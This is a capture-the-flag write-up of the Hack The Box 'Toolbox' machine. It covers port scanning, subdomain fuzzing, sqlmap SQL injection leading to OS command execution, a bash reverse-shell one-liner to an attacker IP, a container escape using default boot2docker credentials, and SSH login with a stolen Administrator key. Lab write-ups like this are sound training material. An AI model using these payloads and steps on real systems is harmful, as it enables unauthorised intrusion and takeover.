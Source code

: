 # [Toolbox](https://app.hackthebox.com/machines/Toolbox)

```bash
nmap -p- --min-rate 10000 10.10.10.236 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p21,22,135,139,443,445,5985,47001 10.10.10.236 -Pn
```

![alt text](img/image-1.png)


From result, we need to add `megalogistic.com` domain for this host into `/etc/hosts` file. This is for resolving purposes.


Then, I do `Subdomain Enumeration` via `wfuzz` as below.
```bash
wfuzz -u https://10.10.10.236 -H "Host: FUZZ.megalogistic.com" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hh 22357
```

![alt text](img/image-2.png)

I add this `admin` subdomain into `/etc/hosts` file also.

I enumerate login form on administration page and find `SQL Injection` possible here after putting `'` mark here.

```bash
sqlmap -r login.req --force-ssl --level 5 --risk 3
```

![alt text](img/image-3.png)



After this, I enum that, I can get `RCE` via this `SQLI`. I add `--os-shell` option to get shell

```bash
sqlmap -r login.req --force-ssl --level 5 --risk 3 --os-shell
```

![alt text](img/image-4.png)

Then I submit this reverse shell payload into here.
```bash
bash -c "bash -i >& /dev/tcp/10.10.14.12/1337 0>&1"
```

Hola I got reverse shell from port `1337`.

![alt text](img/image-5.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-6.png)



While I run `ifconfig`, I see that I hacked container.

![alt text](img/image-7.png)


user.txt

![alt text](img/image-12.png)

Let's try to switch into `host` by `ssh`. I reference this method from [here](https://github.com/boot2docker/boot2docker#ssh-into-vm)

docker: tsuser


```bash
ssh docker@172.17.0.1
```

![alt text](img/image-8.png)


While I run `sudo -l`, I see that I have all privilege, it means I can type `sudo -s` to be root user.

![alt text](img/image-9.png)




While making enumeration on the machine, I find `id_rsa` of `Administrator` user of host `Windows` machine

```bash
chmod 600 id_rsa
ssh -i id_rsa administrator@10.10.10.236
```

![alt text](img/image-10.png)


root.txt

![alt text](img/image-11.png)